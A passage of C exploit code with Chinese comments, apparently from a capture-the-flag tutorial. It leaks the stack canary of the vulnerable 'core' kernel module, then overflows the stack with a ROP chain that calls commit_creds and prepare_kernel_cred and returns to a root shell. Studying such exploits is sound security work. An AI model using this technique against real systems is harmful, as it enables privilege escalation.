    int fd = open("/proc/core", O_RDWR);	// 以读写模式打开init_module创建的接口后续与之交互 ==> 通过该fd可以调用到core.ko内核模块中的函数
    if (!fd) {
        puts("[-] OPEN /proc/core ERROR.");
        exit(0);
    }
    
    // ============ 泄漏canary ============
    ioctl(fd, CORE_OFF, 0x40);		// 将off改大，后续方便读出canary
    ioctl(fd, CORE_READ, user_buf);  //	读取内核栈上的 canary
    size_t canary = ((size_t *)user_buf)[0];	// 第一个就是canary
    printf("[+] Find canary: 0x%llx
", canary);
    
    // 构造ROP 进行内核栈溢出
    for(i = 0; i < 10; i++)
    {
        rop[i] = canary;
    }
    rop[i++] = pop_rdi;
    rop[i++] = 0;
    rop[i++] = prepare_kernel_cred_addr;	// 在内核态执行用户代码提权
    rop[i++] = pop_rdx;
    rop[i++] = commit_creds_addr;
    rop[i++] = mov_rdi_rax_jmprdx;
    rop[i++] = swapgs;		// 返回用户态起shell
    rop[i++] = 0;
    rop[i++] = iretq;
    rop[i++] = (size_t)GetShell;
    rop[i++] = user_cs;
    rop[i++] = user_rflags;
    rop[i++] = user_sp;
    rop[i++] = user_ss;
    
    write(fd, rop, sizeof(rop));	// 写到name上
    ioctl(fd, CORE_COPY, 0xffffffffffff0000|0x100);		// copy到栈上
    return 0;
}
```
